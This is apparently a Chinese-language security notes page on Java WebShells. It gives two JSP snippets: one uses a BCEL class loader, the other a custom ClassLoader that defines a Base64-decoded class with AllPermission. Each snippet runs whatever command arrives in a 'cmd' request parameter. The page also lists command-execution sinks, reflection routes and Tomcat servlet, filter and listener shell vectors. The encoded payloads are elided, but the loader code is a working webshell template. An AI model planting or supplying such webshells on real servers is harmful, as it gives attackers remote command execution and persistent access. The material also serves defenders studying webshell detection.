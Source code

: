 WebShell
========================================

BCEL字节码
----------------------------------------
.. code:: java

    String bcelCode = "...";
    response.getOutputStream().write(String.valueOf(new ClassLoader().loadClass(bcelCode).getConstructor(String.class).newInstance(request.getParameter("cmd")).toString()).getBytes());

自定义类加载器
----------------------------------------
.. code:: java

    response.getOutputStream().write(new ClassLoader() {
        @Override
        public Class<?> loadClass(String name) throws ClassNotFoundException {
            if (name.contains("shell")) {
                return findClass(name);
            }
            return super.loadClass(name);
        }

        @Override
        protected Class<?> findClass(String name) throws ClassNotFoundException {
            try {
                byte[] bytes = Base64.getDecoder().decode("...");
                PermissionCollection pc = new Permissions();
                pc.add(new AllPermission());
                ProtectionDomain protectionDomain = new ProtectionDomain(new CodeSource(null, (Certificate[]) null), pc, this, null);
                return this.defineClass(name, bytes, 0, bytes.length, protectionDomain);
            } catch (Exception e) {
                e.printStackTrace();
            }
            return super.findClass(name);
        }
    }.loadClass("shell").getConstructor(String.class).newInstance(request.getParameter("cmd")).toString().getBytes());
    %>

执行命令变式
----------------------------------------
- java.lang.ProcessBuilder#start
- java.lang.Runtime#exec
- TemplatesImpl

基于反射
----------------------------------------
- class.forName
- MethodAccessor.invoke
- Method.invoke

其他Shell变式
----------------------------------------
- java.beans.Expression
- java.lang.ClassLoader
- java.net.URLClassLoader
- jdk.nashorn.internal.runtime.ScriptLoader
- ObjectInputStream.resolveClass
- ScriptEngine.eval
- ScriptEngineManager
- ToolProvider.getSystemJavaCompiler

Tomcat 容器
----------------------------------------
- Servlet
- Filter
- Listener
